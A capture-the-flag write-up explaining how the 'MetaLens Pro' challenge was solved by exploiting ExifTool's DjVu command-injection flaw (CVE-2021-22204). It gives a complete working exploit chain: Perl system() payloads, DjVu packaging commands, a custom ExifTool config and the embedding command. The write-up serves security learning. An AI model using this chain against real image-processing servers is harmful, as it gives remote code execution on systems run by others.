









## RSTCON 2025 CTF - MetaLens Pro Write-up



### Step 1: Initial Analysis and Problem Description

The challenge presents a web application called **MetaLens Pro**, designed for analyzing image metadata. Users can upload image files, and the server extracts and displays their EXIF data.

The problem description hints at potential vulnerabilities in the "processing pipeline." This, combined with the metadata analysis functionality, immediately suggests possible vulnerabilities in the backend software used for this task. The most likely candidate is **ExifTool**, a popular metadata utility that, in older versions, contains a critical Remote Code Execution (RCE) vulnerability – **CVE-2021-22204**.

[INE Blog: ExifTool Command Injection (CVE-2021-22204)](https://ine.com/blog/exiftool-command-injection-cve-2021-22204-exploitation-and-prevention-strategies)

**Objective:** Demonstrate system compromise by creating a malicious image file that, upon server-side processing, will execute our code and allow us to retrieve the flag.

### Step 2: Exploitation Strategy and Exploit Creation

The CVE-2021-22204 vulnerability arises because ExifTool incorrectly handles metadata in DjVu format files. We can embed a malicious Perl command within a specially crafted DjVu file, and then embed this DjVu file into the metadata of a regular image (e.g., PNG or JPG). When the server attempts to analyze the metadata of our crafted image using a vulnerable version of ExifTool, it will execute the embedded command.

The exploit creation process consists of four main stages:

1.  **Payload Creation:** First, we'll verify code execution capabilities by using `ls -al` to list the current directory contents on the server. Then, we'll create a second payload to read the flag file.
2.  **Malicious DjVu File Creation:** Package our payload into a DjVu file format.
3.  **ExifTool Configuration File Creation:** Define a custom tag for embedding our DjVu file.
4.  **DjVu Embedding into an Image:** Use ExifTool to embed the malicious DjVu into a regular image file.

### Step 3: Step-by-Step Execution

#### 1. Creating the Reconnaissance Payload (`ls -al`)

First, we'll create a file named `payload` containing the `ls -al` command. This is to confirm the RCE vulnerability and to scout the server's directory, specifically looking for the flag file. The Perl `system()` function will execute the shell command.

Contents of `payload`:
```
(metadata "\c${system('ls -al')};")
```



#### 2. Creating the Malicious DjVu File

Using the `bzz` and `djvumake` utilities (part of the `djvulibre-bin` package), we compress our `payload` and then create the `exploit.djvu` file.

```bash
bzz payload payload.bzz
djvumake exploit.djvu INFO='1,1' BGjp=/dev/null ANTz=payload.bzz
```



#### 3. Creating the ExifTool Configuration File

Next, we create an ExifTool configuration file named `configfile`. This file defines a custom tag, `HasselbladExif`, which ExifTool will use to write our DjVu data into the image's metadata.


Contents of `configfile`:
```perl
%Image::ExifTool::UserDefined = (
    'Image::ExifTool::Exif::Main' => {
        0xc51b => {
            Name => 'HasselbladExif',
            Writable => 'string',
            WriteGroup => 'IFD0',
        },
    },
);
1;
```


#### 4. Embedding DjVu into an Image and First Upload

Now, we embed our `exploit.djvu` into an ordinary image (in this case, `image.png`), creating the final malicious file `hacked.png`.

```bash
exiftool -config configfile '-HasselbladExif<=exploit.djvu' image.png -o hacked.png
```



We then upload `hacked.png` to the MetaLens Pro website. In the server's response, just above the JSON metadata, we observe the output of our `ls -al` command. This confirms that the RCE vulnerability has been successfully exploited, and we can clearly see a `flag.txt` file in the current directory.




#### 5. Retrieving the Flag

Having identified the flag file, we repeat the process with a new payload in the `payload` file: `(metadata "\c${system('cat flag.txt')};")`.

```bash
nano payload # Update payload
bzz payload payload.bzz
djvumake exploit.djvu INFO='1,1' BGjp=/dev/null ANTz=payload.bzz
exiftool -config configfile '-HasselbladExif<=exploit.djvu' image.png -o hacked2.png
```




Finally, we upload `hacked2.png` to the server. This time, the output contains the flag.




### Flag

`MetaCTF{exif_to0l_versi0n_c4n_kill_you}`
